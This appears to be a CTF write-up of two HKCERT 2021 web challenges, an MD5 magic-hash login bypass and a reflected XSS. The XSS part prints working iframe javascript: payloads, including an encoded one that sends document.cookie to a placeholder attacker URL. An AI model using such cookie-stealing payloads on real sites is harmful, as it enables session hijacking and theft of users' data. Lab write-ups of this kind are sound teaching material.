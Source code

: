 I just finished 2 challenges TT
HKCERT CTF - 12 Nov 2021

1. Challenge Name: 因講了出來 (Web - 150 points)

Open the link 
![image](https://user-images.githubusercontent.com/72589672/141679511-7a6f8a52-2877-41d1-9112-5e847aabdfa4.png)

I clicked the hint to see any interesting things...
It will redirect you to the source.php, you can see the source codes.
So, there is something interestings, becasue it is used the magic hash for validation and we also have the username.

The code showed there are 2 conditions one is "hash('md5', $password) == 0 " which means the input password must be md5 magic hash. (What is magic hash: https://www.whitehatsec.com/blog/magic-hashes/)
The second condition is "substr($password,0,strlen('hkcert')) === 'hkcert'" which means the password must be start from hkcert.
![image](https://user-images.githubusercontent.com/72589672/141678942-b8868440-da03-4cc2-9cc9-6e450d73758d.png)

BE CAREFUL!! 
-> The length of password cannot longer than 24
![image](https://user-images.githubusercontent.com/72589672/141679291-beadfe5c-3690-4dda-9a66-0e6cd63c7f32.png)

-> The following code shows we cannot use the cracked password, try to avoid we crack the same password.
![image](https://user-images.githubusercontent.com/72589672/141679107-6d4558cd-ded4-447c-86c6-a19c62c2f383.png)

Then, we can try to bruteforce the password by using python script.
![image](https://user-images.githubusercontent.com/72589672/141679457-fe572bbb-5bf9-41de-8b16-a4a459844c20.png)

So, we can use username hkcert and the craked password hkcertsadxxxxxx to login the page and get the flag!

2. Challenge Name: 純孩兒 BABY XSS (Web - 100 points) XSS
Read the description:
![image](https://user-images.githubusercontent.com/72589672/141679818-b9210c24-868c-4bb8-b994-21ebcb5d6e3a.png)
So I went to the training platform and learnt from HKCERT Workshop - infrant XSS: https://training.hkcert21.pwnable.hk/

Open the link
![image](https://user-images.githubusercontent.com/72589672/141679516-f15351f3-f60c-4660-9963-068a31ef77f5.png)

To view this page source code, I found there are some opfusted javascript
![image](https://user-images.githubusercontent.com/72589672/141679766-41cf1146-509d-4306-a0a2-d1013d8e7cef.png)

Using the deobfuscate website (https://deobfuscate.io/) to find the javascript
![image](https://user-images.githubusercontent.com/72589672/141679982-95e8d359-7280-44bf-b25f-caff805dcfdb.png)

Learnt from the workshop, the following codes means we can rewrite this function 
![image](https://user-images.githubusercontent.com/72589672/141680220-a13a87be-49ba-43db-b99a-9719b3b8597d.png)

So, I can try to test the page can execute the javascript or not, but it doesn't work
![image](https://user-images.githubusercontent.com/72589672/141679585-368e5a5e-6636-4c85-a7da-fc5896fbc372.png)

I tried to used different methods to trigger the javascript. 
Luckily, I can trigger the javascript by using the UTF-8 encode with the iframe tag. (Learnt from: https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting)
Enter: <iframe src=javascript:%61%6c%65%72%74%28%31%29></iframe>
![image](https://user-images.githubusercontent.com/72589672/141679658-d95d90e7-4530-4817-a0e6-8d5c44eba3e0.png)
![image](https://user-images.githubusercontent.com/72589672/141679638-8bb2cc8b-e04f-4796-b45a-44dc688f1f6e.png)

Then, I can use a website to steal the data from the client.
The workshop suggested me to use https://requestbin.com/, so I registed it.

Therefore, I can use <iframe src=javascript:location.href='http://yourwebsiteurl/'></iframe>
Before inject the code into the textarea, we need to encode the url. I used this website https://www.browserling.com/tools/utf8-encode to encode.
![image](https://user-images.githubusercontent.com/72589672/141680425-8352c127-f9fb-4550-99d1-61abcf69733b.png)
Remember: Replace '\x' to '%'

Example: \x59\x6f\x75\x72\x20\x77\x65\x62\x73\x69\x74\x65\x20\x75\x72\x6c to %59%6f%75%72%20%77%65%62%73%69%74%65%20%75%72%6c

Then, we can insert the code into the textarea.
<iframe src=javascript:%59%6f%75%72%20%77%65%62%73%69%74%65%20%75%72%6c></iframe>
You can see the result on the frame.
![image](https://user-images.githubusercontent.com/72589672/141680598-846d8da1-5612-4497-959c-644a3a070c7f.png)

I also go to my website to confirm the event is triggered. It works!!!
![image](https://user-images.githubusercontent.com/72589672/141680697-b974dcf7-f661-4af8-9b72-c774a16efa81.png)

I can use the document.cookies get cookies NOW!!
The javascirpt will be like this: <iframe src=javascript:location.href='http://yourwebsiteurl/?'+document.cookie></iframe>
![image](https://user-images.githubusercontent.com/72589672/141680895-2ed0ca5a-333f-48a3-be89-b9734f81374b.png)

Encode again: <iframe src=javascript:%6c%6f%63%61%74%69%6f%6e%2e%68%72%65%66%3d%27%68%74%74%70%73%3a%2f%2f%79%6f%75%72%77%65%62%73%69%74%65%75%72%6c%3f%27%2b%64%6f%63%75%6d%65%6e%74%2e%63%6f%6f%6b%69%65></iframe>
Then, we can inject the code into textare to steal the client data!
![image](https://user-images.githubusercontent.com/72589672/141680937-e51ff854-29b7-402d-a504-e270c28488a4.png)

After we verified it also successful triggered the event on the website, we can copy the url on BABY XSS website.
![image](https://user-images.githubusercontent.com/72589672/141681026-4fe923c5-71ae-4b15-8927-de892147c329.png)

Go to the XSS Bot Page, select the bayXSS Challenge and enter the copied url into the URL textbox. Click Submit Query!
http://babyxss-m7neh9.hkcert21.pwnable.hk/#%3Ciframe%20src=javascript:%256c%256f%2563%2561%2574%2569%256f%256e%252e%2568%2572%2565%2566%253d%2527%2568%2574%2574%2570%2573%253a%252f%252f%2579%256f%2575%2572%2577%2565%2562%2573%2569%2574%2565%2575%2572%256c%253f%2527%252b%2564%256f%2563%2575%256d%2565%256e%2574%252e%2563%256f%256f%256b%2569%2565%3E%3C/iframe%3E
![image](https://user-images.githubusercontent.com/72589672/141681153-f5864f4a-39e2-4bda-96b7-1dc89571f9ef.png)

Now, you can go to your website to check the triggered event's query. The flag is there!!




